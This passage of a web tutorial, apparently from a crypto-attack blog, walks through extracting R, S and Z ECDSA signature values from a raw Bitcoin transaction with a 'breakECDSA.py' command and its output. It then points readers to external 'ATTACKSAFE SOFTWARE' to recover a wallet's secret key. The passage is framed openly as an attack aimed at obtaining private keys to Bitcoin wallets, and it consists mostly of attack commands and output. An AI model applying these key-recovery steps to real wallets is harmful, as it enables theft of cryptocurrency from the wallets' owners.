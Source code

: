 

<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-116-1024x306.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1183"></figure>



<pre class="wp-block-code"><code>R = 0x331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc67
S = 0x0bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff4
Z = 0x9d86bea51385f6a56835d0148e7f23a353605bab339127e800112307e6727d2d</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p><strong>To implement the attack and get the secret key, we will use the&nbsp;</strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener">“ATTACKSAFE SOFTWARE” software</a></strong></p>



<figure class="wp-block-image"><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-14.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-705"></a><figcaption><strong><code>www.attacksafe.ru/software</code></strong></figcaption></figure>
